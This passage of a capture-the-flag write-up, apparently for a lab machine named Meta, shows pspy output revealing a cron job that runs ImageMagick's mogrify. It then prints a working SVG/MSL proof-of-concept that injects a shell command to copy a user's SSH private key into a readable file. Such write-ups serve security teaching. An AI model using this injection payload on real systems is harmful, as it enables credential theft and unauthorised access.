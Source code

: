 If we ran [pspy](https://github.com/DominicBreuker/pspy) and wait some minutes we will have something interesting.

```bash
2023/12/01 03:01:01 CMD: UID=1000  PID=3427   | /bin/sh -c /usr/local/bin/convert_images.sh 
2023/12/01 03:01:01 CMD: UID=1000  PID=3428   | /bin/bash /usr/local/bin/convert_images.sh 
2023/12/01 03:01:01 CMD: UID=1000  PID=3429   | /bin/bash /usr/local/bin/convert_images.sh 
2023/12/01 03:01:01 CMD: UID=0     PID=3430   | /usr/sbin/CRON -f 
2023/12/01 03:01:01 CMD: UID=0     PID=3431   | /bin/sh -c rm /tmp/* 
2023/12/01 03:01:01 CMD: UID=1000  PID=3432   | /bin/bash /usr/local/bin/convert_images.sh 
2023/12/01 03:02:01 CMD: UID=0     PID=3435   | /usr/sbin/CRON -f 
2023/12/01 03:02:01 CMD: UID=0     PID=3434   | /usr/sbin/cron -f 
2023/12/01 03:02:01 CMD: UID=0     PID=3433   | /usr/sbin/CRON -f 
2023/12/01 03:02:01 CMD: UID=0     PID=3436   | /usr/sbin/CRON -f 
2023/12/01 03:02:01 CMD: UID=1000  PID=3437   | 
2023/12/01 03:02:01 CMD: UID=1000  PID=3438   | /bin/bash /usr/local/bin/convert_images.sh 
2023/12/01 03:02:01 CMD: UID=0     PID=3439   | /usr/sbin/CRON -f 
2023/12/01 03:02:01 CMD: UID=0     PID=3441   | /bin/sh -c rm /tmp/* 
2023/12/01 03:02:01 CMD: UID=0     PID=3440   | /usr/sbin/CRON -f 
2023/12/01 03:02:01 CMD: UID=0     PID=3442   | /bin/sh -c cp -rp ~/conf/config_neofetch.conf /home/thomas/.config/neofetch/config.conf 
2023/12/01 03:02:01 CMD: UID=1000  PID=3443   | pkill mogrify
```

Thomas is running the following script every two minutes.

```bash
www-data@meta:/tmp$ cat /usr/local/bin/convert_images.sh 
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

mogrify is actually a symbolic link to magick. Searching for vulnerabilitie int his blog the author explain how to exploit this [https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html). 

We have to create svg file  and copy to /var/www/dev01.artcorp.htb/convert_images/

```bash
www-data@meta:/home/thomas$ cat /tmp/poc.svg 
<image authenticate='ff" `echo $(cat ~/.ssh/id_rsa) > ~/test.txt`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

If we wait we will have the thomas ssh key in a file called test.txt in his home folder.

```bash
www-data@meta:/home/thomas$ cat test.txt 
```